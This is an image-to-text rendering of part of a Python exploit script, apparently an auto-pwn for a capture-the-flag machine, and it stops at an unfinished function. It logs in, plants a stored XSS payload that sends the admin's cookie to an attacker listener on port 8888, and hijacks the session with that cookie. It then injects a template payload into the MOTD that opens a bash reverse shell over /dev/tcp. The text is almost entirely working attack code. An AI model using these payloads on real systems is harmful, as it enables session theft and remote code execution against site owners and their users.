 ```py
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:8888/' + document.cookie, true);\n" %lhost
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost):
    print("[+] Listener on port 8888 to receive the token ![+]")
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,8888))
    s.listen()
    
    global admin_cookie
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print("[+] The Admin Token is: " + admin_cookie + " !! [+]")
    admin_cookie = admin_cookie.split("=")[1]
    
# Setting the admin token to the session
def changeCookies(rhost,admin_cookie):
    print("[+] Let's Become Admin !! [+]")
    r.cookies['PHPSESSID'] = admin_cookie
    print("[+] Cookie Changed !! [+]")

# Change the MOTD
def changeMotd(rhost,lhost,lport):
    print("[+] Let's change the MOTD ! [+]")
    url = "http://%s:80/admin/update_motd.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"message": "{php}echo `bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'`;{/php}" %(lhost,lport)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Doooone !!! [+]")

# Just get reverse
def getReverse(rhost):
```